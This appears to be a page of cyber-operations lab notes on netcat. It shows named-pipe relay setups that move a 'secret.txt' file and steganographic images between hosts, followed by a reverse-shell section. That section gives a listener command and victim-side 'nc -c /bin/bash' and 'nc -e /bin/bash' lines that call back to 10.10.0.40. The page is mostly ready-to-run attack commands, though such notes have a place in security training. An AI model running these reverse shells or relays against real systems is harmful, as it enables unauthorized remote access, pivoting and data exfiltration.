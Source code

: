 # NETCAT RELAY DEMOS
## Listener - Listener

### On Blue_Host-1 Relay:
```
$ mknod mypipe p

$ nc -lvp 1111 < mypipe | nc -lvp 3333 > mypipe
```


### On Internet_Host (send):
```
$ nc 172.16.82.106 1111 < secret.txt
```
### On Blue_Priv_Host-1 (receive):
```
$ nc 192.168.1.1 3333 > newsecret.txt
```
```
When T2 is pushing jpg (Client)
Relay will do:
nc -lvp 1111 < mypipe | nc -lvp 1234 > mypipe
T1 (Internet host) will do:
nc 172.16.40.10 1111 > 2steg.jpg
```
# Example of a relay case:

```
When T2 is Listening (Server)
Relay will do:
nc -lvp 1111 < mypipe | nc 172.16.82.115 6789 > mypipe
T1 will do:
nc 172.16.40.10 1111 > 3steg.jpg
```








# REVERSE SHELL USING NETCAT
## First listen for the shell on your device.
```
$ nc -lvp 9999
```
On Victim using -c :
```
$ nc -c /bin/bash 10.10.0.40 9999
```
On Victim using -e :
```
$ nc -e /bin/bash 10.10.0.40 9999
```
